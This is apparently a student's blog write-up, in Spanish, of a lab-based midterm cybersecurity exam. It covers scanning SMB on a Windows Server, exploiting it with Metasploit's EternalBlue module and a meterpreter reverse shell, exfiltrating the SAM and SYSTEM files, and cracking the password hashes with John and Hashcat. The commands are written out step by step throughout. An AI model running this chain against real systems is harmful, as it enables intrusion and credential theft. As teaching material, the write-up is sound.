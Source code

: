 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 20:51:00 -05:00
categories: [Ciberseguridad, Seguridad Informática]
tags: [SMB, Reconnaissance, Weaponization, Exploitation, SSH]  # TAG names should always be lowercase
---
```


En este post, vamos a desarrollar el examen parcial.

# 2.1. Escaneo de Red y Enumeración de Servicios (2 puntos) 

nmap -p 139,445 --script smb-protocols 10.0.2.4

![alt text](/assets/images/1.png)

### Explicación:
•	Los puertos 139 y 445 están asociados con el servicio SMB en Windows. Usamos el flag --script smb-protocols de Nmap para enumerar las versiones de los protocolos SMB que están habilitados.
•	En los resultados, se muestra que NT LM 0.12 (SMBv1) está habilitado en la máquina Windows Server (10.0.2.4), lo cual es vulnerable.


# 2.2. Exploración de la Vulnerabilidad 

Uso del exploit exploit/windows/smb/ms17_010_eternalblue en Metasploit:

•	EternalBlue (MS17-010) explota una vulnerabilidad en SMBv1, permitiendo ejecución remota de código en sistemas sin parchar, como Windows Server 2008 R2.
•	Este exploit es ideal para esta tarea ya que se enfoca en SMBv1, lo que nos permite ejecutar código y obtener una conexión remota con el servidor si tiene SMBv1 activo y es vulnerable a EternalBlue.

# 2.3. Configuración del Exploit en el Framework Metasploit

1.	Inicia Metasploit:
msfconsole
2.	Selecciona el módulo de EternalBlue:
use exploit/windows/smb/ms17_010_eternalblue
3.	Configura los parámetros necesarios:

   
![alt text](/assets/images/2.png)
### Explicación de los parámetros:
•	RHOSTS (Remote Host): IP de la máquina objetivo (Windows Server 10.0.2.4). Indica a Metasploit dónde dirigir el ataque.
•	LHOST (Local Host): IP de la máquina atacante (Kali Linux 10.0.2.9). Es necesario para recibir la conexión de vuelta (reverse shell).
•	PAYLOAD: windows/x64/meterpreter/reverse_tcp crea un payload de reverse shell que te permitirá obtener acceso remoto y control sobre la máquina víctima.


# 2.4. Ejecución del Exploit (2 puntos)

Comando para ejecutar el exploit:
exploit
Confirmación de éxito:

![alt text](/assets/images/3.png)

### Explicación de los parámetros:
•	El exploit se ejecuta correctamente, mensaje en Metasploit Meterpreter session X opened.
•	Este mensaje confirma que se ha establecido una conexión con la máquina objetivo (Windows Server 10.0.2.4) y ahora se tiene una sesión interactiva.


# 2.5. Exfiltración de Archivos SAM y SYSTEM 

Pasos para exfiltrar los archivos:
Sube el script vssown.vbs a la máquina víctima:
upload /home/user/Desktop/vssown.vbs C:\Windows\Temp\vssown.vbs

![alt text](/assets/images/4.png)

Copia los archivos SAM y SYSTEM desde la copia de volumen de sombra:
![alt text](/assets/images/5.png)

Descarga los archivos a tu máquina atacante:
    download C:\Windows\Temp\SAM /ruta/en/Kali/SAM
    download C:\Windows\Temp\SYSTEM /ruta/en/Kali/SYSTEM


# 2.6. Análisis de los Archivos Exfiltrados 

### Extracción de hashes de contraseñas en Kali Linux:
1.	Usa samdump2 para extraer los hashes de los archivos SAM y SYSTEM:
samdump2 /ruta/en/Kali/SYSTEM /ruta/en/Kali/SAM > hashes.txt
2.	Con los hashes en hashes.txt, intenta descifrarlos con John the Ripper:
john --format=NT hashes.txt
o	O bien, usa Hashcat para realizar un ataque con GPU:
hashcat -m 1000 hashes.txt /ruta/a/wordlist

Explicación:
•	Samdump2 extrae los hashes de los archivos SAM y SYSTEM, que son esenciales para intentar descifrar las contraseñas de los usuarios.
•	John the Ripper y Hashcat permiten descifrar los hashes mediante ataques de diccionario o fuerza bruta.

